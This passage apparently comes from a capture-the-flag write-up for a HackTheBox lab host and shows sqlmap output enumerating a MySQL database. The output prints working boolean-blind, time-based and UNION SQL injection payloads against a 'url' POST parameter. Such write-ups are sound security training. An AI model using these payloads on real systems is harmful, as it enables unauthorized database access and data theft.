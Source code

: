 ```bash
[11:48:01] [INFO] resumed: vote
available databases [2]:
[*] information_schema
[*] vote

[11:48:01] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/vote.cobblestone.htb'

[*] ending @ 11:48:01 /2025-08-13/
```

Let's check out the `vote` database.

```bash
└─$ sqlmap -r req --batch -D vote --tables
        ___
       __H__                                                                                                                                                                                                                                
 ___ ___[.]_____ ___ ___  {1.9.6#stable}                                                                                                                                                                                                    
|_ -| . [.]     | .'| . |                                                                                                                                                                                                                   
|___|_  [.]_|_|_|__,|  _|                                                                                                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:52:00 /2025-08-13/

[11:52:00] [INFO] parsing HTTP request from 'req'
[11:52:00] [INFO] resuming back-end DBMS 'mysql' 
[11:52:00] [INFO] testing connection to the target URL
got a 302 redirect to 'http://vote.cobblestone.htb/details.php?id=24'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: url (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: url=http://vote.cobblestone.htb/index.php' AND 5901=5901 AND 'HaTg'='HaTg

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: url=http://vote.cobblestone.htb/index.php' AND (SELECT 1771 FROM (SELECT(SLEEP(5)))Nfcz) AND 'egFU'='egFU

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: url=http://vote.cobblestone.htb/index.php' UNION ALL SELECT NULL,CONCAT(0x7178707671,0x6145494f4c7a53735276666843686a5749724b69696a574768636f4e6c4c4e424e6756506a49794c,0x71707a7071),NULL,NULL,NULL-- -
---
[11:52:02] [INFO] the back-end DBMS is MySQL
```